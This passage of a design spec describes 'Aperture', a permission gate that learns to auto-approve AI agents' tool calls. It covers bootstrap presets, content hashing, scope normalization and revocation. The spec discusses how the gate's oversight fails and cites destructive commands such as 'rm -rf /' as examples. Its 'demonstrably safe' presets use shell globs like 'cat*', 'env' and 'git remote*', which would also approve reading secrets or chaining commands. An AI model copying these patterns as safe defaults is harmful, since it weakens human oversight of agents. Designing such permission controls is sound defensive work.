| `test_compliance_report_unchecked_execution` | Execution without prior check appears in unchecked list |
| `test_compliance_report_empty_session` | Empty session shows 100% compliance (no gaps) |
| `test_compliance_report_partial` | Mix of checked and unchecked shows correct ratio |
| `test_compliance_tracking_disabled_still_records` | Events recorded even when `compliance_tracking_enabled=False` |

### Files to Create or Modify

| File | Action | Purpose |
|------|--------|---------|
| `aperture/mcp_server.py` | **Modify** | Add `report_tool_execution` and `get_compliance_report` tools |
| `aperture/config.py` | **Modify** | Add `compliance_tracking_enabled` setting |
| `tests/test_mcp.py` | **Modify** | Add compliance tool tests |

---

## Fix 5: Approval Fatigue (HIGH)

### Vulnerability

Day 1 with Aperture: every single `filesystem.read`, `git status`, `ls` triggers DENY because there is zero decision history. The user rubber-stamps 50 approvals in rapid succession, which poisons the learning data because the user stopped reading prompts after the 5th one.

### Architecture Decision

- **Decision**: Bootstrap presets — curated permission sets for common workflows. A new CLI command `aperture bootstrap [preset]` seeds the database with synthetic decisions at the auto-approve threshold, using `decided_by="human:bootstrap"`.
- **Rationale**: Eliminates the day-1 denial storm. The `human:bootstrap` tag is distinguishable from real human decisions. Presets are curated for safety — only read-only and demonstrably safe commands.
- **Tradeoffs**: If a preset is too permissive, the user inherits that permissiveness. Mitigated by making presets conservative and clearly documented.
- **Alternatives Considered**:
  - Default-allow for low-risk actions (violates default-deny principle)
  - Smart batching of approvals (doesn't solve the problem, just groups it)

### Component Specifications

#### New Module: `aperture/permissions/presets.py`

```python
"""Bootstrap presets — curated safe permission sets for common workflows.

Presets seed the permission_log table with synthetic human decisions
so that auto-approve kicks in immediately for safe, well-understood patterns.
"""

from dataclasses import dataclass


@dataclass
class PresetDecision:
    """A single pre-approved (tool, action, scope) pattern."""
    tool: str
    action: str
    scope: str  # glob pattern


# ── Preset Definitions ───────────────────────────────────────────────

PRESET_READONLY: list[PresetDecision] = [
    # Filesystem reads
    PresetDecision("filesystem", "read", "*.py"),
    PresetDecision("filesystem", "read", "*.md"),
    PresetDecision("filesystem", "read", "*.txt"),
    PresetDecision("filesystem", "read", "*.json"),
    PresetDecision("filesystem", "read", "*.yaml"),
    PresetDecision("filesystem", "read", "*.yml"),
    PresetDecision("filesystem", "read", "*.toml"),
    PresetDecision("filesystem", "read", "*.cfg"),
    PresetDecision("filesystem", "read", "*.ini"),
    PresetDecision("filesystem", "read", "*.xml"),
    PresetDecision("filesystem", "read", "*.html"),
    PresetDecision("filesystem", "read", "*.css"),
    PresetDecision("filesystem", "read", "*.js"),
    PresetDecision("filesystem", "read", "*.ts"),
    PresetDecision("filesystem", "read", "*.tsx"),
    PresetDecision("filesystem", "read", "*.jsx"),
    PresetDecision("filesystem", "read", "*.rs"),
    PresetDecision("filesystem", "read", "*.go"),
    PresetDecision("filesystem", "list", "*"),
    # Shell reads
    PresetDecision("shell", "execute", "ls*"),
    PresetDecision("shell", "execute", "cat*"),
    PresetDecision("shell", "execute", "head*"),
    PresetDecision("shell", "execute", "tail*"),
    PresetDecision("shell", "execute", "wc*"),
    PresetDecision("shell", "execute", "find*"),
    PresetDecision("shell", "execute", "grep*"),
    PresetDecision("shell", "execute", "rg*"),
    PresetDecision("shell", "execute", "which*"),
    PresetDecision("shell", "execute", "pwd"),
    PresetDecision("shell", "execute", "whoami"),
    PresetDecision("shell", "execute", "echo*"),
    PresetDecision("shell", "execute", "date"),
    PresetDecision("shell", "execute", "env"),
]

PRESET_DEVELOPER: list[PresetDecision] = PRESET_READONLY + [
    # Git (read-only operations)
    PresetDecision("shell", "execute", "git status*"),
    PresetDecision("shell", "execute", "git log*"),
    PresetDecision("shell", "execute", "git diff*"),
    PresetDecision("shell", "execute", "git show*"),
    PresetDecision("shell", "execute", "git branch*"),
    PresetDecision("shell", "execute", "git remote*"),
    PresetDecision("shell", "execute", "git tag*"),
    PresetDecision("shell", "execute", "git stash list*"),
    # Test runners
    PresetDecision("shell", "execute", "pytest*"),
    PresetDecision("shell", "execute", "python -m pytest*"),
    PresetDecision("shell", "execute", "npm test*"),
    PresetDecision("shell", "execute", "npm run test*"),
    PresetDecision("shell", "execute", "cargo test*"),
    PresetDecision("shell", "execute", "go test*"),
    PresetDecision("shell", "execute", "make test*"),
    PresetDecision("shell", "execute", "make check*"),
    # Build tools (read-only / diagnostic)
    PresetDecision("shell", "execute", "npm list*"),
    PresetDecision("shell", "execute", "pip list*"),
    PresetDecision("shell", "execute", "pip show*"),
    PresetDecision("shell", "execute", "python --version*"),
    PresetDecision("shell", "execute", "node --version*"),
    PresetDecision("shell", "execute", "npm --version*"),
    # Linters (diagnostic, don't modify)
    PresetDecision("shell", "execute", "ruff check*"),
    PresetDecision("shell", "execute", "mypy*"),
    PresetDecision("shell", "execute", "eslint*"),
    PresetDecision("shell", "execute", "tsc --noEmit*"),
]

PRESET_MINIMAL: list[PresetDecision] = []  # Nothing pre-approved

PRESETS: dict[str, list[PresetDecision]] = {
    "readonly": PRESET_READONLY,
    "developer": PRESET_DEVELOPER,
    "minimal": PRESET_MINIMAL,
}


def get_preset_names() -> list[str]:
    """Return available preset names."""
    return sorted(PRESETS.keys())


def get_preset(name: str) -> list[PresetDecision]:
    """Get a preset by name. Raises KeyError if not found."""
    if name not in PRESETS:
        raise KeyError(
            f"Unknown preset: {name!r}. Available: {', '.join(sorted(PRESETS))}"
        )
    return PRESETS[name]


def apply_preset(
    preset_name: str,
    organization_id: str = "default",
    num_synthetic_decisions: int | None = None,
) -> int:
    """Apply a preset by seeding synthetic human decisions.

    Inserts enough synthetic 'human:bootstrap' decisions for each
    (tool, action, scope) pattern so that auto-approve kicks in
    immediately (exceeds min_decisions at 100% approval rate).

    Args:
        preset_name: Name of the preset to apply.
        organization_id: Which org to seed.
        num_synthetic_decisions: Override for number of decisions per pattern.
            Defaults to settings.permission_learning_min_decisions + 1.

    Returns:
        Total number of decision records inserted.
    """
    import aperture.config
    from aperture.db import get_engine as _get_engine
    from aperture.models.permission import PermissionDecision, PermissionLog
    from sqlmodel import Session

    preset = get_preset(preset_name)
    if not preset:
        return 0

    count = num_synthetic_decisions
    if count is None:
        count = aperture.config.settings.permission_learning_min_decisions + 1

    total = 0
    with Session(_get_engine()) as session:
        for pd in preset:
            for i in range(count):
                log = PermissionLog(
                    organization_id=organization_id,
                    tool=pd.tool,
                    action=pd.action,
                    scope=pd.scope,
                    decision=PermissionDecision.ALLOW.value,
                    decided_by=f"human:bootstrap",
                    runtime_id="bootstrap",
                )
                session.add(log)
                total += 1
        session.commit()

    return total
```

#### Modified: `aperture/cli.py`

Add `bootstrap` subcommand:

```python
elif cmd == "bootstrap":
    _bootstrap(args[1:])

# ...

def _bootstrap(args: list[str]):
    """Apply a bootstrap preset to seed permission decisions."""
    from aperture.db import init_db
    from aperture.permissions.presets import apply_preset, get_preset_names

    init_db()

    if not args or args[0] in ("--help", "-h"):
        names = get_preset_names()
        print("Usage: aperture bootstrap <preset_name>")
        print(f"\nAvailable presets: {', '.join(names)}")
        print("\n  developer  — filesystem reads, git, test runners, linters")
        print("  readonly   — filesystem reads and safe shell commands only")
        print("  minimal    — nothing pre-approved (fresh start)")
        return

    preset_name = args[0]
    org_id = "default"
    if len(args) > 1 and args[1].startswith("--org="):
        org_id = args[1].split("=", 1)[1]

    try:
        total = apply_preset(preset_name, organization_id=org_id)
        print(f"Applied '{preset_name}' preset: {total} decisions seeded.")
        print("These patterns will now auto-approve immediately.")
    except KeyError as e:
        print(f"Error: {e}")
        sys.exit(1)
```

Also add `--bootstrap` flag to `init-db`:

```python
elif cmd == "init-db":
    from aperture.db import init_db
    init_db()
    print("Database initialized.")
    if "--bootstrap" in args:
        preset = args[args.index("--bootstrap") + 1] if args.index("--bootstrap") + 1 < len(args) else "developer"
        from aperture.permissions.presets import apply_preset
        total = apply_preset(preset)
        print(f"Applied '{preset}' bootstrap: {total} decisions seeded.")
```

### Interface Connections



### Test Strategy

| Test Name | What It Proves |
|-----------|----------------|
| `test_developer_preset_has_git_status` | Developer preset includes `git status` |
| `test_readonly_preset_has_filesystem_read` | Readonly preset includes filesystem reads |
| `test_minimal_preset_is_empty` | Minimal preset has zero entries |
| `test_apply_preset_creates_decisions` | `apply_preset("developer")` creates DB records |
| `test_bootstrap_decisions_enable_auto_approve` | After applying preset, `check_permission` auto-approves matching patterns |
| `test_bootstrap_decided_by_tagged` | All decisions have `decided_by="human:bootstrap"` |
| `test_cli_bootstrap_command` | CLI `aperture bootstrap developer` runs without error |
| `test_cli_bootstrap_unknown_preset` | CLI `aperture bootstrap unknown` exits with error |
| `test_init_db_with_bootstrap_flag` | `aperture init-db --bootstrap developer` seeds decisions |

### Files to Create or Modify

| File | Action | Purpose |
|------|--------|---------|
| `aperture/permissions/presets.py` | **Create** | Preset definitions and `apply_preset` function |
| `aperture/permissions/__init__.py` | **Modify** | Export `apply_preset`, `get_preset_names` |
| `aperture/cli.py` | **Modify** | Add `bootstrap` command and `--bootstrap` flag to `init-db` |
| `tests/test_presets.py` | **Create** | Preset and bootstrap tests |

---

## Fix 6: No Content Awareness (MEDIUM)

### Vulnerability

`filesystem.write` on `config.py` says nothing about what is being written. The same (tool, action, scope) triple covers both writing a docstring fix and writing malicious code. Session memory approves the second write automatically because the first was approved.

### Architecture Decision

- **Decision**: Add an optional `content_hash` parameter to `check_permission`. When provided, it becomes part of the session cache key. Different content_hash = different check. The risk score gets a small boost when the same (tool, action, scope) has been seen with different content.
- **Rationale**: Opt-in, backward compatible. Content is never stored (only the hash), preserving privacy. Runtimes that care about content changes can pass the hash; others get existing behavior.
- **Tradeoffs**: Does not inspect the content itself — a hash only detects *change*, not *danger*. Content analysis would require an LLM, which violates Aperture's zero-LLM principle.
- **Alternatives Considered**:
  - Storing full content for analysis (privacy concern, storage cost)
  - LLM-based content review (latency, cost, against design principles)

### Component Specifications

#### Modified: `aperture/permissions/engine.py`

```python
def check(
    self,
    tool: str,
    action: str,
    scope: str,
    permissions: list[Permission],
    *,
    task_id: str = "",
    session_id: str = "",
    organization_id: str = "default",
    runtime_id: str = "",
    enrich: bool = False,
    content_hash: str = "",  # NEW — opt-in content awareness
) -> PermissionVerdict:
    # Session memory now includes content_hash in the key
    cache_key = (tool, action, scope, session_id, content_hash)  # CHANGED

    # ... rest of logic ...
```

In `_build_verdict`, when content_hash is provided, check for content changes:

```python
def _build_verdict(
    self,
    decision, decided_by, tool, action, scope,
    *, organization_id="default", enrich=False,
    content_hash: str = "",  # NEW
) -> PermissionVerdict:
    # ... existing risk computation ...

    # Content change detection
    content_changed = False
    if content_hash and session_id:
        # Check if we've seen this (tool, action, scope) with a DIFFERENT hash
        for cached_key, _ in self._session_cache.items():
            if (cached_key[0] == tool and cached_key[1] == action
                    and cached_key[2] == scope and cached_key[3] == session_id
                    and cached_key[4] and cached_key[4] != content_hash):
                content_changed = True
                break

    verdict = PermissionVerdict(
        # ... existing fields ...
        content_changed=content_changed,
    )
    return verdict
```

#### Modified: `aperture/models/verdict.py`

```python
@dataclass
class PermissionVerdict:
    # ... existing fields ...
    content_changed: bool = False  # NEW

    def to_dict(self) -> dict:
        result = { ... }
        if self.content_changed:
            result["content_changed"] = True
        return result
```

#### Modified: `aperture/mcp_server.py`

```python
@mcp.tool()
def check_permission(
    tool: str,
    action: str,
    scope: str,
    task_id: str = "",
    session_id: str = "",
    organization_id: str = "default",
    content_hash: str = "",  # NEW
) -> str:
    """Check if an AI agent action is permitted.
    ...
    Args:
        ...
        content_hash: Optional SHA-256 hash of the content being written/modified.
            When provided, different content hashes are treated as separate checks
            even for the same (tool, action, scope). This prevents session memory
            from auto-approving changed content.
    """
    verdict = _engine.check(
        ...,
        content_hash=content_hash,
    )
```

### Interface Connections



### Test Strategy

| Test Name | What It Proves |
|-----------|----------------|
| `test_session_memory_differentiates_content_hash` | Same (tool, action, scope) with different content_hash is a different check |
| `test_session_memory_same_content_hash_reuses` | Same content_hash reuses session memory |
| `test_no_content_hash_backward_compatible` | Omitting content_hash gives existing behavior |
| `test_content_changed_flag_set` | Verdict includes `content_changed=True` when hash differs from prior check |
| `test_content_changed_flag_not_set_first_check` | First check has `content_changed=False` |

### Files to Create or Modify

| File | Action | Purpose |
|------|--------|---------|
| `aperture/permissions/engine.py` | **Modify** | Add `content_hash` to `check()`, update cache key |
| `aperture/models/verdict.py` | **Modify** | Add `content_changed` field |
| `aperture/mcp_server.py` | **Modify** | Add `content_hash` param to `check_permission` |
| `aperture/api/routes/permissions.py` | **Modify** | Add `content_hash` to `CheckRequest` |
| `tests/test_permissions.py` | **Modify** | Add content awareness tests |

---

## Fix 7: Scope Fragmentation (MEDIUM)

### Vulnerability

Every unique shell command is a separate scope with zero learning history. The user approves `git status` but `git log --oneline -5` is a completely separate scope. The learning engine has to collect `min_decisions` for each exact command variant before auto-approving, leading to endless re-approvals of safe command families.

### Architecture Decision

- **Decision**: Add scope normalization in the learning engine. A `_normalize_scope` function extracts the "base command" from shell scopes and normalizes filesystem scopes to directory patterns. The learning engine matches against BOTH the exact scope AND the normalized scope, with normalized matches requiring a higher multiplier on `min_decisions`.
- **Rationale**: This directly reduces approval fatigue without weakening security. The higher threshold for normalized matches prevents a single approval of `rm -rf ./build/` from auto-approving `rm -rf /`.
- **Tradeoffs**: Normalization rules are heuristic — they may group commands that the user considers different. Mitigated by the higher threshold and by never normalizing HIGH/CRITICAL risk scopes.
- **Alternatives Considered**:
  - Only exact matching (current broken state)
  - Full semantic analysis (requires LLM)

### Component Specifications

#### New Module: `aperture/permissions/scope_normalize.py`

```python
"""Scope normalization — groups related scopes to accelerate learning.

"git log --oneline -5" -> "git log*"
"src/components/Button.tsx" -> "src/components/*.tsx"
"src/components/Card.tsx" -> "src/components/*.tsx"

Normalized scopes require higher thresholds than exact matches.
"""

import re
import shlex


def normalize_scope(tool: str, action: str, scope: str) -> str | None:
    """Normalize a scope to its "group" pattern.

    Returns None if the scope cannot be meaningfully normalized
    (already a glob, too short, or too dangerous to generalize).

    Args:
        tool: Tool name
        action: Action name
        scope: Raw scope string

    Returns:
        Normalized glob pattern, or None if not normalizable.
    """

def _normalize_shell_scope(scope: str) -> str | None:
    """Normalize a shell command scope.

    Rules:
    - Extract the base command (first word)
    - If the command has subcommands (git log, npm test), keep the subcommand
    - Strip all flags and arguments
    - Append * to indicate "any arguments"

    Examples:
        "git log --oneline -5" -> "git log*"
        "git status" -> "git status*"
        "npm test -- --watch" -> "npm test*"
        "ls -la /home/user" -> "ls*"
        "pytest tests/test_foo.py -v" -> "pytest*"
    """

def _normalize_filesystem_scope(scope: str) -> str | None:
    """Normalize a filesystem scope to a directory+extension pattern.

    Rules:
    - Extract the directory and file extension
    - Replace the filename with *
    - Keep the extension

    Examples:
        "src/components/Button.tsx" -> "src/components/*.tsx"
        "docs/guide.md" -> "docs/*.md"
        "config.yaml" -> "*.yaml"
        "src/**/*.py" -> None (already a glob)
    """

# Commands with recognized subcommands (cmd -> set of known subcommands)
_SUBCOMMAND_CMDS: dict[str, frozenset[str]] = {
    "git": frozenset({
        "status", "log", "diff", "show", "branch", "checkout", "commit",
        "push", "pull", "fetch", "merge", "rebase", "stash", "tag",
        "add", "reset", "remote", "clone", "init",
    }),
    "npm": frozenset({
        "test", "run", "install", "start", "build", "list", "show",
        "init", "publish", "audit", "outdated",
    }),
    "docker": frozenset({
        "build", "run", "exec", "ps", "images", "pull", "push",
        "stop", "start", "restart", "rm", "rmi", "logs", "compose",
    }),
    "kubectl": frozenset({
        "get", "describe", "apply", "delete", "logs", "exec",
        "create", "edit", "scale", "rollout",
    }),
    "pip": frozenset({
        "install", "uninstall", "list", "show", "freeze", "search",
    }),
    "cargo": frozenset({
        "build", "test", "run", "check", "clippy", "fmt", "doc",
        "new", "init", "publish",
    }),
    "make": frozenset(),  # make targets are arbitrary, just keep "make*"
}
```

#### Modified: `aperture/permissions/engine.py`

In `_check_learned`, after exact match fails, try normalized match:

```python
def _check_learned(self, tool, action, scope, organization_id):
    # ... existing exact match logic ...

    # If exact match didn't have enough decisions, try normalized scope
    from aperture.permissions.scope_normalize import normalize_scope

    normalized = normalize_scope(tool, action, scope)
    if normalized is not None and normalized != scope:
        # Query decisions matching the normalized pattern
        normalized_matching = [
            log for log in logs
            if fnmatch.fnmatch(log.scope, normalized) or fnmatch.fnmatch(normalized, log.scope)
        ]

        # Normalized matches require 2x the threshold
        normalized_min = settings.permission_learning_min_decisions * 2
        if len(normalized_matching) < normalized_min:
            return None

        allow_count = sum(1 for log in normalized_matching if log.decision == PermissionDecision.ALLOW)
        rate = allow_count / len(normalized_matching)

        if rate >= settings.auto_approve_threshold:
            logger.info(
                "Auto-approving %s.%s on %s via normalized scope %s "
                "(%d decisions, %.0f%% approval)",
                tool, action, scope, normalized, len(normalized_matching), rate * 100,
            )
            return PermissionDecision.ALLOW

    return None
```

#### Modified: `aperture/models/permission.py`

Add `scope_group` field to `PermissionLog`:

```python
class PermissionLog(SQLModel, table=True):
    # ... existing fields ...
    scope_group: str = Field(default="", index=True)  # normalized scope pattern
```

#### Modified: `aperture/permissions/engine.py` (`_log` method)

Compute and store the normalized scope:

```python
def _log(self, tool, action, scope, decision, decided_by, **kwargs):
    from aperture.permissions.scope_normalize import normalize_scope

    resource = extract_resource(tool, action, scope)
    scope_group = normalize_scope(tool, action, scope) or ""

    log_entry = PermissionLog(
        ...,
        scope_group=scope_group,  # NEW
    )
```

### Interface Connections



### Test Strategy

| Test Name | What It Proves |
|-----------|----------------|
| `test_normalize_git_log_variants` | `git log --oneline`, `git log -5`, `git log --stat` all normalize to `git log*` |
| `test_normalize_shell_simple` | `ls -la` normalizes to `ls*` |
| `test_normalize_npm_test_variants` | `npm test`, `npm test -- --watch` normalize to `npm test*` |
| `test_normalize_filesystem_same_dir` | `src/foo.py`, `src/bar.py` normalize to `src/*.py` |
| `test_normalize_glob_returns_none` | `src/**/*.py` returns None (already a glob) |
| `test_normalized_match_requires_2x_threshold` | Auto-approve via normalized scope needs 2x `min_decisions` |
| `test_exact_match_still_works` | Exact scope matching is unaffected |
| `test_scope_group_stored_in_log` | `PermissionLog.scope_group` is populated on write |
| `test_normalize_dangerous_scope_returns_none` | HIGH/CRITICAL risk scopes are not normalized |

### Files to Create or Modify

| File | Action | Purpose |
|------|--------|---------|
| `aperture/permissions/scope_normalize.py` | **Create** | Scope normalization logic |
| `aperture/permissions/__init__.py` | **Modify** | Export `normalize_scope` |
| `aperture/permissions/engine.py` | **Modify** | Use normalized scope in `_check_learned` and `_log` |
| `aperture/models/permission.py` | **Modify** | Add `scope_group` field to `PermissionLog` |
| `tests/test_scope_normalize.py` | **Create** | Normalization unit tests |
| `tests/test_permissions.py` | **Modify** | Add normalized learning tests |

---

## Fix 8: No Unlearning (MEDIUM)

### Vulnerability

Once auto-approve kicks in for a pattern, there is no way to revoke it except wiping the database. If a user accidentally approves something dangerous 10 times, that pattern is permanently auto-approved.

### Architecture Decision

- **Decision**: Add revocation — both via MCP tools and CLI. Revocation soft-deletes matching decisions (sets `revoked_at` timestamp) so the audit trail is preserved. The learning engine filters out revoked decisions. A `list_auto_approved_patterns` tool shows what is currently auto-approved.
- **Rationale**: Soft delete preserves the audit trail (critical for compliance). The MCP tool lets the user revoke from within the agent conversation. The CLI provides direct access outside of MCP.
- **Tradeoffs**: Revoked decisions still exist in the database — they are filtered, not deleted. This is intentional for auditability. A revocation itself is logged as an audit event.
- **Alternatives Considered**:
  - Hard delete (destroys audit trail)
  - Database export/edit (too complex for users)

### Component Specifications

#### Modified: `aperture/models/permission.py`

Add `revoked_at` field to `PermissionLog`:

```python
class PermissionLog(SQLModel, table=True):
    # ... existing fields ...
    revoked_at: Optional[datetime] = Field(default=None)  # NEW — soft delete for revocation
```

#### Modified: `aperture/permissions/engine.py`

Add revocation method and filter revoked decisions:

```python
def revoke_pattern(
    self,
    tool: str,
    action: str,
    scope: str,
    revoked_by: str,
    organization_id: str = "default",
) -> int:
    """Revoke all learned decisions matching (tool, action, scope).

    Soft-deletes by setting revoked_at. Preserves audit trail.

    Args:
        tool: Tool name pattern (exact match)
        action: Action name pattern (exact match)
        scope: Scope pattern (exact or glob match)
        revoked_by: Who is revoking
        organization_id: Org scope

    Returns:
        Number of decisions revoked.
    """
    now = datetime.now(timezone.utc).replace(tzinfo=None)
    count = 0

    with Session(get_engine()) as session:
        logs = session.exec(
            select(PermissionLog).where(
                PermissionLog.organization_id == organization_id,
                PermissionLog.tool == tool,
                PermissionLog.action == action,
                PermissionLog.decided_by.startswith("human:"),
                PermissionLog.revoked_at.is_(None),
            )
        ).all()

        for log in logs:
            if fnmatch.fnmatch(log.scope, scope) or log.scope == scope:
                log.revoked_at = now
                session.add(log)
                count += 1

        session.commit()

    # Also clear session cache entries for this pattern
    to_remove = [
        k for k in self._session_cache
        if k[0] == tool and k[1] == action and (fnmatch.fnmatch(k[2], scope) or k[2] == scope)
    ]
    for k in to_remove:
        del self._session_cache[k]

    return count
```

Update `_check_learned` to filter revoked:

```python
def _check_learned(self, tool, action, scope, organization_id):
    # ... existing query ...
    with Session(get_engine()) as session:
        logs = session.exec(
            select(PermissionLog).where(
                PermissionLog.organization_id == organization_id,
                PermissionLog.tool == tool,
                PermissionLog.action == action,
                PermissionLog.decided_by.startswith("human:"),
                PermissionLog.revoked_at.is_(None),  # NEW — exclude revoked
            ).order_by(PermissionLog.created_at.desc())
        ).all()
```

Also update `crowd.py` `get_org_signal` and `learning.py` `detect_patterns` to filter revoked decisions:

```python
# In crowd.py get_org_signal and learning.py detect_patterns:
PermissionLog.revoked_at.is_(None),  # NEW — exclude revoked
```

#### New MCP tools in `aperture/mcp_server.py`

```python
@mcp.tool()
def revoke_permission_pattern(
    tool: str,
    action: str,
    scope: str,
    revoked_by: str,
    organization_id: str = "default",
) -> str:
    """Revoke auto-approval for a permission pattern.

    Marks all matching learned decisions as revoked (soft delete).
    After revocation, the pattern will no longer auto-approve and
    will require fresh human decisions.

    The revocation is logged in the audit trail. Revoked decisions
    are preserved for auditing but excluded from learning.

    Args:
        tool: Tool name to revoke (exact match)
        action: Action name to revoke (exact match)
        scope: Scope pattern to revoke (exact or glob)
        revoked_by: Who is revoking (user identifier)
        organization_id: Tenant identifier
    """
    count = _engine.revoke_pattern(
        tool=tool,
        action=action,
        scope=scope,
        revoked_by=revoked_by,
        organization_id=organization_id,
    )

    _audit.record(
        event_type="permission.revoked",
        summary=f"Revoked {count} decisions for {tool}.{action} on {scope}",
        organization_id=organization_id,
        entity_type="permission",
        entity_id=f"{tool}.{action}.{scope}",
        actor_type="human",
        actor_id=revoked_by,
        runtime_id="mcp",
        details={
            "tool": tool,
            "action": action,
            "scope": scope,
            "revoked_by": revoked_by,
            "revoked_count": count,
        },
    )

    return json.dumps({
        "revoked": True,
        "count": count,
        "tool": tool,
        "action": action,
        "scope": scope,
    })


@mcp.tool()
def list_auto_approved_patterns(
    organization_id: str = "default",
    min_decisions: int = 0,
) -> str:
    """List all permission patterns currently being auto-approved.

    Shows which (tool, action, scope) patterns have enough consistent
    human approvals to trigger automatic approval. Use this to identify
    patterns you may want to revoke.

    Args:
        organization_id: Tenant identifier
        min_decisions: Minimum decisions to include (0 = use configured threshold)
    """
    import aperture.config

    settings = aperture.config.settings
    if not settings.permission_learning_enabled:
        return json.dumps({"patterns": [], "message": "Learning is disabled"})

    threshold_min = min_decisions or settings.permission_learning_min_decisions
    threshold_rate = settings.auto_approve_threshold

    patterns = _learner.detect_patterns(
        organization_id=organization_id,
        min_decisions=threshold_min,
    )

    auto_approved = [
        p for p in patterns
        if p.approval_rate >= threshold_rate
    ]

    if not auto_approved:
        return json.dumps({"patterns": [], "message": "No patterns currently auto-approved"})

    return json.dumps({
        "patterns": [
            {
                "tool": p.tool,
                "action": p.action,
                "scope": p.scope,
                "approval_rate": round(p.approval_rate, 3),
                "total_decisions": p.total_decisions,
                "unique_humans": p.unique_humans,
                "confidence": round(p.confidence, 3),
            }
            for p in auto_approved
        ],
        "count": len(auto_approved),
        "threshold": {
            "min_decisions": threshold_min,
            "approval_rate": threshold_rate,
        },
    })
```

#### Modified: `aperture/cli.py`

Add `revoke` subcommand:

```python
elif cmd == "revoke":
    _revoke(args[1:])

# ...

def _revoke(args: list[str]):
    """Revoke auto-approval for a permission pattern."""
    from aperture.db import init_db
    from aperture.permissions.engine import PermissionEngine

    if len(args) < 3 or args[0] in ("--help", "-h"):
        print("Usage: aperture revoke <tool> <action> <scope> [--org=ORG_ID]")
        print("\nExample: aperture revoke shell execute 'rm -rf*'")
        return

    init_db()
    tool, action, scope = args[0], args[1], args[2]
    org_id = "default"
    for a in args[3:]:
        if a.startswith("--org="):
            org_id = a.split("=", 1)[1]

    engine = PermissionEngine()
    count = engine.revoke_pattern(tool, action, scope, revoked_by="cli", organization_id=org_id)
    print(f"Revoked {count} decision(s) for {tool}.{action} on {scope}")
```

### Interface Connections



### Data Flow

